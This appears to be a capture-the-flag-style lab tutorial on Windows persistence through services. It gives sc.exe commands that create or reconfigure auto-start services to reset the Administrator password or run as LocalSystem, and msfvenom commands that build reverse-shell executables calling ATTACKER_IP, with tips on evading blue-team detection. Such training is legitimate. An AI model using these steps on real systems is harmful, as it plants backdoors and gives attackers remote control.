 Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

A service is basically an executable that runs in the background. When configuring a service, you define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.

There are two main ways we can abuse services to establish persistence: either create a new service or modify an existing one to execute our payload.

## Creating backdoor services

We can create and start a service named "THMservice" using the following commands:

```shell-session
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

**Note:** There must be a space after each equal sign for the command to work.

The "net user" command will be executed when the service is started, resetting the Administrator's password to `Passwd123`. Notice how the service has been set to start automatically (start= auto), so that it runs without requiring user interaction.

Resetting a user's password works well enough, but we can also create a reverse shell with msfvenom and associate it with the created service. Notice, however, that service executables are unique since they need to implement a particular protocol to be handled by the system. If you want to create an executable that is compatible with Windows services, you can use the `exe-service` format in msfvenom:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

You can then copy the executable to your target system, say in `C:\Windows` and point the service's binPath to it:

```shell
sc.exe create THMservice2 binPath= "C:\windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

## Modifying existing services

While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:

```shell
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:

```shell
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

There are three things we care about when using a service for persistence:

- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:

```shell
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

To reconfigure "THMservice3" parameters, we can use the following command:

```shell
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

You can then query the service's configuration again to check if all went as expected:

```shell
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

